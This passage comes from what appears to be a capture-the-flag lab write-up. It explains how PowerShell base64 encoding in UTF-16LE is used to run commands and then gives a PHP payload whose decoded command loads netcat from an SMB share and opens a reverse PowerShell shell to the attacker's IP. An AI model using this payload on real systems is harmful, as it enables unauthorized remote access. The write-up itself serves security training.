 we test out a simple **PowerShell** command `get-date`

![powershell-encoding](/assets/Sniper/powershell-encoding.jpg)

notice the encoding type is set to **UTF-16LE**. That's what **PowerShell** expects when using that parameter.

![powershell-encoded-execution](/assets/Sniper/powershell-encoded-execution.jpg)

*After verifying that this method works, and after failing with many reverse shell options,* I set up an **Impacket SMB Server** and hosted `netcat` (the 64-bit version) and **managed to get code execution with this payload**:

```php
<?php `powershell /e XABcADEAMAAuADEAMAAuADEANgAuADMAXABzAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAAgADEAMAAuADEAMAAuADEANgAuADMAIAA5ADAAMAAwAA==` ?>
```
which is:
```
\\10.10.16.3\s\nc64.exe -e powershell 10.10.16.3 9000
```
